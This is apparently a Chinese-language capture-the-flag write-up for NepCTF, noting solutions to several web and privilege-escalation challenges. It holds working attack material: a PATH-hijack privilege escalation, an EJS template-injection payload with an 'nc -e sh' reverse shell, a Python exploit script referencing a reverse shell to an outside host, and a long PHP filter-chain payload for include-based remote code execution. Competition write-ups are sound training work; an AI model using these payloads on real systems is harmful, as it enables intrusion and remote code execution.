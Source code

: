 - # ez_java_checkin
	- shiro工具直接打
		- 配置环境：首先`sudo dnf install java-1.8.0-openjdk-openjfx`，然后`java -cp /usr/lib/jvm/openjfx8/ -jar xxx.jar`
	- NepcTF{Ezjava_Chekin}
- # 独步天下
	- ## 转生成为镜花水月中的王者
		- 注意：这里的nmap貌似不是正常的nmap, 而是一个只会执行ports-alive的程序
		- 思路：通过设置PATH让nmap执行自定义的ports-alive文件
		- 在`/tmp`下新建fakebin文件夹，将需要执行的命令写入到`ports-alive`这个文件中，`chmod a+x ports-alive`给予其执行权限
		- 然后`export PATH=/tmp/fakebin:/sbin:/usr/sbin:/bin:/usr/bin`
		- 最后`nmap -V`
		- ```shell
		  cd /tmp
		  mkdir fakebin
		  cd fakebin
		  echo 'sh' > ports-alive
		  chmod a+x ports-alive
		  export PATH=/tmp/fakebin:/sbin:/usr/sbin:/bin:/usr/bin
		  nmap -V 
		  whoami
		  ```
	- ## 破除虚妄_探见真实
		- > 未解出，施工中
		- ```shell
		  for i in $(seq 1 100); do
		    echo 192.168.200.$i
		    echo -e "GET / HTTP/1.1\r\nHost: 192.168.200.$i\r\n\r\n" | nc 192.168.200.$i 80 | wc -l
		  done
		  
		  ```
		- 扫到192.168.200.1，看见Apache的默认页面
		- `/index.php`看到`<title>电脑版-中文-ZengCMS后台开发框架_ZengCMS内容管理系统</title>`
		- 审CMS
			- Download controller貌似可以进行任意文件读取
- # Post Crad For You
	- 参考： ((64d7a180-ce15-46d7-b3c5-9ae47612b34e))
	- https://eslam.io/posts/ejs-server-side-template-injection-rce/
	- 抄payload直接打
		- payload
			- ```text
			  /page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
			  ```
		- 注意：因为render函数在传入文件名时会缓存渲染结果，我们需要关闭requests的自动redirect
		- ```python
		  r = base_get(url + "create", params = {
		      "name": "asdf",
		      "address": "asdf",
		      "message": "asdf"
		  }, allow_redirects = False)
		  pageid = r.text.rpartition("pageid=")[2].partition("&name=")[0]
		  print(pageid)
		  
		  payload = "sleep 5"
		  # payload = generate_reverse_shell_payload("xxx.org", 3001)
		  payload = "x;process.mainModule.require('child_process').execSync('{}');s".format(payload)
		  payload = enc_dec.urlencode(payload)
		  
		  r = base_get(url + "page?settings[view options][outputFunctionName]={}".format(payload), params = {
		      "name": "asdf",
		      "address": "asdf",
		      "message": "weshouldntseethis",
		      "pageid": pageid
		  })
		  if "weshouldntseethis" not in r.text:
		      with open("a.html", "w") as f:
		          f.write(r.text)
		  ```
- # Ez_include
	- > 施工中，未解出
	- 利用include实现RCE
		- 使用 ((63bc02d6-ea56-4c2a-a494-0cb277531dba)) 生成payload, 将base64encode前面的iconv删除就可以使用了
		- ```python
		  payload = "php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.iconv.ISO6937.EUC-JP-MS|convert.iconv.EUCKR.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CN.ISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/tmp/resources/3"
		  ```
	- 利用原生类实现文件夹读取
		- ```php
		  $a=new DirectoryIterator("glob:///*");
		  foreach($a as $f){
		  	echo $f.' ';
		  }
		  ```
-